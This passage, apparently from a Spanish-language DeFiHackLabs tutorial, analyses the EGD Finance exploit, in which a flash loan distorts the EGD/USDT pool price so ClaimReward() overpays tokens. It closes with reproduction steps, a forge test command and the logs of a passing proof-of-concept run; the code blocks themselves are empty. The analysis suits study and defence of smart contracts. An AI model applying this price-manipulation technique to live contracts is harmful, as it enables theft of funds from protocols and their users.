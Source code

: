 ![getEGDPrice_Static](https://user-images.githubusercontent.com/26408530/211231574-bb7a652d-3538-4ca1-859d-a30962014d44.png)

Entonces, ¿cómo está aprovechando el atacante este método inseguro de obtener los precios actuales?

El mecanismo subyacente es tal que, a partir del segundo flash loan, el atacante pidió prestada una gran cantidad de USDT, influyendo así en el precio del pool basado en la fórmula `x * y = k`. Antes de devolver el préstamo, el `getEGDPrice()` será incorrecto.

Diagrama de referencia:
![CleanShot 2023-01-12 at 17 01 46@2x](https://user-images.githubusercontent.com/107821372/212027306-3a7f9a8c-4995-472c-a8c7-39e5911b531d.png)
**Conclusión: El atacante usó un flash loan para alterar la liquidez del par de trading EGD/USDT, resultando en que `ClaimReward()` obtenga un precio incorrecto, permitiendo al atacante obtener una cantidad obscena de tokens EGD.**

Finalmente, el atacante intercambió el Token EGD usando Pancakeswap por USDT, obteniendo así beneficios del ataque.

---
### Paso 5: Reproducir
Ahora que hemos entendido completamente el ataque, vamos a reproducirlo:

Paso D. Escribir el código PoC para el ataque

<details><summary>Haz clic para mostrar el código</summary></details>
<br>

Paso E. Escribir el código PoC para el segundo flash loan usando la vulnerabilidad

<details><summary>Haz clic para mostrar el código</summary></details>
<br>

Paso F. Ejecutar el código con `forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv`. Presta atención al cambio en los saldos.

[DeFiHackLabs - EGD-Finance.exp.sol](https://github.com/finn79426/DeFiHackLabs/blob/main/src/test/EGD-Finance.exp.sol)

```
Running 1 test for src/test/EGD-Finance.exp.sol:Attacker
[PASS] testExploit() (gas: 537204)
Logs:
  --------------------  Pre-work, stake 10 USDT to EGD Finance --------------------
  Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Attacker Stake 10 USDT to EGD Finance
  -------------------------------- Start Exploit ----------------------------------
  [Start] Attacker USDT Balance: 0.000000000000000000
  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
  [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s
```
Nota: EGD-Finance.exp.sol de DeFiHackLabs incluye un paso preventivo que es el staking.


[^1]: Skim() :
[^2]: Las llamadas a funciones internas son invisibles para la blockchain ya que no crean nuevas transacciones o bloques. De esta manera, no pueden ser leídas por otros contratos inteligentes ni aparecer en el historial de transacciones de la blockchain.